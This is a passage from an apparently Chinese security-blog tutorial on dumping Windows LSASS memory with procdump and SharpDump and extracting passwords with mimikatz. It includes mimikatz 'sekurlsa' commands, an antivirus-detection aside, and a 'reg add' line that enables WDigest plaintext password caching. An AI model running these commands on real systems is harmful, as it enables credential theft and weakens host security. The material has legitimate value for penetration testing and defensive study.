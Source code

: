 之后可以下载到本地导入到mimikatz中进行读取

我在xp上导出，在win10上导入会报错

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220033-d1b0c46c-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220033-d1b0c46c-f278-1.png)

查了一下发现需要注意的一点是导出的平台和导入的平台不同时会报错，可以看一下mimikatz官方的解释：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220048-da7a7f34-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220048-da7a7f34-f278-1.png)

在另一台xp中就可以成功导出和读取：

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220101-e2685c84-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220101-e2685c84-f278-1.png)

工具地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

## SharpDump

一款C#的工具，GitHub上提供了project源码，在VS中以release编译完成即可使用。

测试只有极少的杀软会报毒，但本地测试时win10的defender会报毒，是否免杀视情况而定吧。需要administrator及以上的权限。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220117-ebe60360-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220117-ebe60360-f278-1.png)

然后将打包的`debug824.bin`下载到本地，修改扩展名为`gz`，将解压后得到的文件导入mimikatz

(**注意**：我第一次测试时导入失败了，之后换了最新版本的mimikatz后成功导入)

```
sekurlsa::minidump <要导入的文件名>
sekurlsa::logonPasswords full
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220136-f6f51610-f278-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220136-f6f51610-f278-1.png)

但是用户明文密码处是`(null)`，查了一下发现原来Windows Server 2012 R2以上的系统默认不向内存中保存明文密码了。这个我们可以通过修改注册表来解决（需要权限）：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

然后重启win10，用户重新登录再导出一次，然后在mimikatz中导入就可以看到明文的密码：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220158-03f03174-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220158-03f03174-f279-1.png)

**工具地址：**https://github.com/GhostPack/SharpDump

# Hash传递攻击(Pass-The-Hash)
